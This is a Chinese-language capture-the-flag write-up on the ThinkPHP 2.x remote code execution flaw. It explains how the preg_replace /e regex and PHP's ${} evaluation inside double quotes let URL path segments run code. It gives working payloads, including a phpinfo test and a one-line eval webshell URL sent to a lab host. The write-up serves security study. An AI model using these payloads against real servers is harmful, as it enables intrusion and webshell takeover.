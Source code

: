 ## c

![image-20210822202324160]([ThinkPHP]2-Rce.assets/image-20210822202324160.png)

进来是这个页面

![image-20210822202513430]([ThinkPHP]2-Rce.assets/image-20210822202513430.png)

构造路径。



![image-20210822202606518]([ThinkPHP]2-Rce.assets/image-20210822202606518.png)

好，构造正确，但是服务器拦截了对该操作的访问

![image-20210822202644466]([ThinkPHP]2-Rce.assets/image-20210822202644466.png)

打开提示网站，看到关键信息

![image-20210822202731844]([ThinkPHP]2-Rce.assets/image-20210822202731844.png)

## 分析正则

> 老版本的正则可以用 ’@‘符号表示模式。以下正则是模式e

```php
preg_replace('@(\w+)'.$depr.'([^'.$depr.'\/]+)@e', '$var[\'\\1\']="\\2";', implode($depr,$paths));
```

1. 看第一个括号，表示匹配任意字符串。并将变量向后引用到位置1

2. $depr 变量默认是'/'

3. $paths 变量是提交的url路径

4. 看第二个括号，表示匹配除'/'以外的字符，再匹配一个字符 '/\'。并将变量向后引用到位置2

![image-20210822233011097]([ThinkPHP]2-Rce.assets/image-20210822233011097.png)

所以，最后匹配后得到的内容就是

```
$var[任意字符串1] = 任意字符串2 + /
```

注意位置2用了双引号闭合，而双引号闭合是可以解析变量的。这就是漏洞所在



## 代码审计

由于tp2测试环境搭建麻烦，php版本也没有对于的xdebug。只能用docker环境， 然后看变量就将其输出到文件夹。



定位到漏洞代码位置，加上一行测试代码，查看正则后的$var变量

![image-20210824024406241]([ThinkPHP]2-Rce.assets/image-20210824024406241.png)

```php
file_put_contents('/var/www/html/test.txt', print_r($var, true).'\n', FILE_APPEND | LOCK_EX);
```



一番docker简单替换文件后，只要我们带着路径访问就可以得到一个test.txt文件。

![image-20210824024604199]([ThinkPHP]2-Rce.assets/image-20210824024604199.png)



于是在'iam'的位置构造payload。因为这里用了双引号。

```php
/index.php/Index/index/yes/${phpinfo()}
```



![image-20210824024813577]([ThinkPHP]2-Rce.assets/image-20210824024813577.png)

php一个特性。${a} = $a，如果a是一个变量，则会在双引号下会解释这个变量。如果花括号里面是代码，会将其运行。得到的结果当成变量名。由于phpinfo没有返回值。所以为yes对应的值为空。



![image-20210824025335199]([ThinkPHP]2-Rce.assets/image-20210824025335199.png)

phpinfo是会向屏幕输出，但没有返回值。或者说是返回空值。



至此漏洞就清晰明了了。



最后构造一句话payload，记得添加eval代码。不然只是接受你的参数，但无法执行

```php
http://node4.buuoj.cn:27489/index.php/Index/index/yes/${@eval($_POST[1])}
```

> 用数字型一句话密码是因为字符串型要用引号，而目标有魔术引号转义

![image-20210824030823569]([ThinkPHP]2-Rce.assets/image-20210824030823569.png)



以为flag是个文件，找啊找。最后小丑竟是我自己！

![image-20210824031250189]([ThinkPHP]2-Rce.assets/image-20210824031250189.png)
